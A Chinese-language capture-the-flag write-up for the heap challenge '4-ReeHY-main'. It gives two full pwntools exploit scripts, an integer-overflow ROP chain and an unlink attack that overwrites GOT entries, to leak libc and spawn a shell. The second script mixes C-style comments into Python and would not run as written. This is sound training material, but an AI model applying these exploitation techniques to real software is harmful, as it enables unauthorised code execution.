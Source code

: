 # 4-ReeHY-main  
这道题目有两种做法，一个是整数溢出，一个是unlink，这里主要介绍unlink。  
***
## 一、整数溢出  
程序主要分为三块主要内容，分别是创建文本，删除文本，编辑文本。首先分析create部分  
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/4-ReeHY-main/index_files/1.png)
可以看到这里有一处明显的整数溢出，利用这一点我们可以构造ROP链泄露libc基址并执行system函数。下面是exp  
```python
from pwn import *

#p = process('./4-ReeHY-main-100')
p = remote("111.198.29.45", 31226)

elf = ELF('./4-ReeHY-main-100')
libc = elf.libc
pop_addr = 0x0000000000400DA3
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = 0x0000000000400C8C
start_addr = 0x0000000000400760
gadget_sym = 0x45216

print p.recvuntil('$ ')
p.sendline('1234')
print p.recvuntil('$ ')
p.sendline('1')
print p.recvuntil('Input size\n')
p.sendline('-1')
print p.recvuntil('Input cun\n')
p.sendline('1')
payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(pop_addr) + p64(puts_got) + p64(puts_plt) + p64(start_addr)
print p.recvuntil('Input content\n')
p.sendline(payload)
data = p.recv(numb = 6)
data = data.ljust(8,'\x00')
data = u64(data)
puts_addr = data
print 'puts_addr:' + hex(data)

libc_addr = puts_addr - libc.symbols['puts']
print 'libc_addr:' + hex(libc_addr)
sys_addr = libc_addr + libc.symbols['system']
print 'sys_addr:' + hex(sys_addr)
bin_addr = libc_addr + libc.search('/bin/sh').next()
print 'bin_Addr:' + hex(bin_addr)
gadget_addr = libc_addr + gadget_sym
print 'gadget_addr:' + hex(gadget_addr)

print p.recvuntil('$ ')
p.sendline('1234')
print p.recvuntil('$ ')
p.sendline('1')
print p.recvuntil('Input size\n')
p.sendline('-1')
print p.recvuntil('Input cun\n')
p.sendline('1')
payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(pop_addr) + p64(bin_addr) + p64(sys_addr) + p64(start_addr)
#payload = 'a' * 0x88 + '\x00' * 8 + 'a' * 8 + p64(gadget_addr)
print p.recvuntil('Input content\n')
p.sendline(payload)
p.interactive()
```
***
## 二、unlink  
分析代码可以看到在delete删除文本的时候，在free掉堆块之后并没有清除掉地址数组里的指针   
![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Heap/4-ReeHY-main/index_files/2.png)
于是我们的整个攻击流程就基本确定下来了，就是先create两个smallbin大小的堆块并释放，使smallbin中有空闲堆块。然后重新申请较大的堆块，伪造堆块并进行unlink攻击。这里我们可以先将一个指针改为可以修改的任意指针，这样我们就可以很方便的多次对任意位置写了。最后我们将free函数先改为puts函数泄露libc基址，然后再将其改为system函数getshell。当然这里面还有很多需要注意的细节，这些会在exp中提到   
```python
from pwn import *

context.log_level = True

p = process('./4-ReeHY-main-100')
#p = remote('111.198.29.45', 55988)
elf = ELF('4-ReeHY-main-100')
libc = elf.libc
#gdb.attach(p, 'b* 0x400aa5')

puts_plt = elf.plt['puts']
free_got = elf.got['free']
puts_got = elf.got['puts']


def create(size, cun, content):
    print p.recvuntil('$')
    p.sendline('1')
    print p.recvuntil('Input size\n')
    p.sendline(str(size))
    print p.recvuntil('Input cun\n')
    p.sendline(str(cun))
    print p.recvuntil('Input content\n')
    p.sendline(content)

def dele(cun):
    print p.recvuntil('$')
    p.sendline('2')
    print p.recvuntil('Chose one to dele\n')
    p.sendline(str(cun))

def edit(cun, content):
    print p.recvuntil('$')
    p.sendline('3')
    print p.recvuntil('Chose one to edit\n')
    p.sendline(str(cun))
    print p.recvuntil('Input the content\n')
    p.sendline(content)

def edit2(cun, content):
    print p.recvuntil('$')
    p.sendline('3')
    print p.recvuntil('Chose one to edit\n')
    p.sendline(str(cun))
    print p.recvuntil('Input the content\n')
    p.send(content)


print p.recvuntil('$')
p.sendline('b0m13')

/*先创建好“/bin/sh”字符串以待后面使用*/
create(0x20, 4, '/bin/sh')
create(0x100, 0, 'chunk0')    #size要大于0x80，否则会将空闲堆块加入到fastbin中
create(0x100, 1, 'chunk1')

/*获得smallbin中的空闲堆块*/
dele(0)
dele(1)

/*构造伪装堆块，将一个指针改为可以修改的任意指针，注意这里只有这个可以，因为还有标志位要考虑进来*/
payload1 = p64(0) + p64(0x100) + p64(0x6020e8) + p64(0x602100 - 0x10) + 'a' * (0x100 - 32) + p64(0x100) + p64(0x110)
create(0x210, 2, payload1)

/*unlink攻击*/
dele(1)

/*覆盖free为puts*/
payload2 = p64(0) + p64(puts_got) + p64(1) + p64(free_got) + p64(1)
edit(2, payload2)

/*注意这里'\n'会覆盖后面的got表项，所以要把'\n'去掉*/
edit2(2, p64(puts_plt))

dele(1)

puts_addr = u64(p.recv(6) + '\x00' * 2)
print 'puts_addr:' + hex(puts_addr)

libc_addr = puts_addr - libc.symbols['puts']
print 'libc_addr:' + hex(libc_addr)

sys_addr = libc_addr + libc.symbols['system']
print 'sys_addr:' + hex(sys_addr)

/*覆盖free为system*/
edit2(2, p64(sys_addr))

/*getshell*/
dele(4)
p.interactive()
```
